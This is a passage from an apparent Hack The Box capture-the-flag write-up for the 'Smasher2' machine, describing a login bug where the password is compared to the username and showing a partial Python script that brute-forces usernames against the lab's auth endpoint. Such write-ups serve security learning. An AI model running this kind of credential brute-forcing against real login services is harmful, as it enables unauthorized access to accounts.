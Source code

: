 Then on the next `strcmp` for the password there's something really strange...

![](/assets/images/htb-writeup-smasher2/gdb2.png)

It's comparing the supplied password against the username. Wow, that's a pretty bad bug! So if I just brute force the usernames and I find a valid one I will be able to login by using it as the password.

To brute force the username, I wrote the script below but had to factor in some error handling whenever I would get a 403 message for some usernames with invalid characters. Sometimes I would also get some false positive, plus the box also dies after ~300 login attempts so I had to reset quite a few times before I figured out the right wordlist.

```python
#!/usr/bin/python

import requests
import time

proxies = {
    "http": "http://127.0.0.1:8080"
}

url = "http://wonderfulsessionmanager.smasher2.htb/auth"

headers = {
    "Content-Type": "application/json",
    "X-Requested-With": "XMLHttpRequest",

}

with open("userlist3.txt") as f:
    passwords = f.read().splitlines()

i = 0
bad = 0

while True:
    bad = 0
    s = requests.Session()
    r = s.get("http://wonderfulsessionmanager.smasher2.htb/login", proxies=proxies)
    if r.status_code != 200:
        print("GET FAILED!")
        exit(1)
    data = '{"action":"auth","data":{"username":"%s","password":"%s"}}' % (passwords[i], passwords[i])
    print("Testing username: %s" % passwords[i])
    while True:
        r = s.post(url, headers=headers, data=data, proxies=proxies)
        if r.status_code == 200:
            break
        if r.status_code == 403:
```